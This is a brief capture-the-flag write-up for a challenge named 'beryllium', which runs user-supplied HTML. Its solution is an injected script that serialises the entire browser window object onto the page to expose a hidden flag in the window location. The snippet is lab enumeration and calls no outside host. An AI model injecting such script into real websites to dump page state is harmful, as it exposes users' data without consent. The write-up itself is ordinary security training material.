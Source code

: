 # beryllium

## Description

We set up a little box for you to run HTML code on. Feel free to access it via: http://172.18.0.3:8000

## solution

One of the first things to check when we have effectively perfect XSS is just all the window variables.

```html
<p id="out"></p>
<script>

const getCircularReplacer = () => {
  const seen = new WeakSet();
  return (key, value) => {
    if (typeof value === "object" && value !== null) {
      if (seen.has(value)) {
        return;
      }
      seen.add(value);
    }
    return value;
  };
};


var x = document.getElementById("out");
out.innerHTML = "(" + JSON.stringify(window, getCircularReplacer()) + ")";

</script>
```

![](solution.png)

(The flag is right there, in the window location!)